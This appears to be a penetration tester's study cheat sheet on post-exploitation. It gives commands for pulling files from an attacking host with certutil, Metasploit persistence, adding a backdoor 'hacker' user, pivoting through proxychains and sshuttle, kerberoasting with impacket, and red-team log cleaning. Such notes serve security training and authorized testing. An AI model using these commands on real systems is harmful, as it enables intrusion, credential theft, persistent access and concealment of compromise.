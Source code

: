 # Post Exploitation

### File Transfer Review

**Certutil**

`certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt`

**HTTP**

```
python3 -m http.server 80
python2 -m SimpleHTTPServer 80
```

**Browser**

Navigate directly to file

**FTP**

`python -m pyftpdlib 21` start ftp server on attacking machine
`ftp 10.10.10.10` 

**Linux/PowerShell**

`wget`

### Maintaining Access Overview

Metasploit modules/scripts

**Persistence Scripts**

run persisitence -h
exploit/windows/local/persistence
exploit/windows/local/registry_persistence

**Scheduled Tasks**

run scheduleme
run schtaskabuse

**Add a user**

net user hacker password123 /add

### Pivoting Overview

2 networks:
- 10.10.155.5/24
- 10.10.10.5/24

**proxychains**

config file: /etc/proxychains4.conf

socks4	127.0.0.1 9050

port binding to 9050

`ssh -f -N -D 9050 root@10.10.155.5`

-f backgrounds ssh connection
-N no command execution, for port forwarding
-D where to bind the port

Traffic can be proxied through the connection

Run commands like nmap with proxychains

`proxychains nmap -p80 10.10.10.225`

look for .. Ok on port scanning

Try different scan types, like -sT, if -sS doesn't work

Run attacks through proxychains, like kerberoasting:

`proxychains impacket-GetUserSPNs ECORP.local/amoss:Password1 -dc-ip 10.10.10.225 -request`

RDP through proxychains:

`proxychains xfreerdp /u:administrator /p:Password123 /v:10.10.10.225`

Browser through proxychains, firefox must be closed:

`proxychains firefox`

**sshuttle**

`sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"`

No need to prefix commands like with proxychains

**chisel**

Go based TCP/UDP tunnel

### Cleaning Up

**Ethical hacking**

Make the system/network as it was when you entered it:

- Remove executables, scripts, and added files
- Remove malware, rootkits, and added user accounts
- Set settings back to original configurations

**Red Teaming**

All the above plus log cleaning, removing events, etc. Make it look like you were never there.
